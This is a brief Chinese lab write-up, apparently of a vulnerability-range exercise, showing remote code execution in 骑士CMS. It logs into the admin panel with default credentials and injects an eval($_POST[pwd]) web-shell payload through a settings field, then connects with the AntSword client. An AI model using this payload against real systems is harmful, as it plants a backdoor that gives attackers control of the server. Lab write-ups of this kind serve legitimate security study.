 ### 骑士CMS RCE

进入后台：

http://123.58.236.76:29396/index.php?m=Admin&c=index&a=login

账号密码为：

user:adminadmin

passwd:adminadmin



注意：修改显示phpinfo后，便不可再次正常显示登陆界面，需要重启环境，建议直接进行getshell操作

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220627113813.png)



再次进入后台登陆界面即可显示PHPinfo()

http://123.58.236.76:29396/index.php?m=Admin&c=index&a=login

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220627113941.png)



Getshell：

```
http://127.0.0.1/.',eval($_POST[pwd]),'/.com
```

保存并刷新

蚁剑连接：http://123.58.236.76:56869/index.php?m=Admin&c=index&a=index

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220627114620.png)